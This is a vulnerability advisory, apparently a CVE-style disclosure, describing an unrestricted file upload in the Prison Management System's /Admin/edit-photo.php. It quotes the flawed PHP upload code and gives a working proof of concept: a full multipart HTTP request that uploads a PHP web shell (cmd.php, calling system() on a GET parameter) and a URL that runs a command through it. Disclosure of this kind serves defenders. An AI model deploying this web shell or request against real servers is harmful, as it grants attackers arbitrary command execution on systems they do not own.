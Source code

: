 Prison Management System - File upload RCE (/Admin/edit-photo.php) 

Vendor Homepage:

```
https://www.sourcecodester.com/sql/17287/prison-management-system.html
```

Version: 

```
V1.0
```

Tested on: 

```
PHP, Apache, MySQL
```

Affected Page:

```
/Admin/edit-photo.php
```

Using `$_FILES["avatar"]["name"]` as the filename on the server can lead to file upload attacks.

```
if(isset($_POST["btnsave"]))
{
$file_type = $_FILES['avatar']['type']; //returns the mimetype
$allowed = array("image/jpeg", "image/gif","image/jpeg", "image/webp","image/png");
if(!in_array($file_type, $allowed)) {
$error = 'Only jpeg,Webp, gif, and png files are allowed.';
 // exit();

}else{
$image= addslashes(file_get_contents($_FILES['avatar']['tmp_name']));
$image_name= addslashes($_FILES['avatar']['name']);
$image_size= getimagesize($_FILES['avatar']['tmp_name']);
move_uploaded_file($_FILES["avatar"]["tmp_name"],"../uploadImage/" . $_FILES["avatar"]["name"]);
$location="uploadImage/" . $_FILES["avatar"]["name"];
```

Proof of vulnerability:

Upload a jpg, capture the packet, modify the file content to malicious code, and modify the file suffix to php

Request:

```
POST /Admin/edit-photo.php HTTP/1.1
Host: localhost:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/jxl,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------15577034693547569057115635772
Content-Length: 646
Origin: http://localhost:8888
Sec-GPC: 1
Connection: close
Referer: http://localhost:8888/Admin/edit-photo.php
Cookie: PHPSESSID=n3ilei2mg7mov24l4ol9itjc14
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------15577034693547569057115635772
Content-Disposition: form-data; name="avatar"; filename="cmd.php"
Content-Type: image/jpeg

<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
-----------------------------15577034693547569057115635772
Content-Disposition: form-data; name="btnsave"


-----------------------------15577034693547569057115635772--
```

```
http://localhost:8888/uploadImage/cmd.php?cmd=whoami
```




<img width="948" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/33c22ca2-0aa4-4136-a671-dd889083daf7">
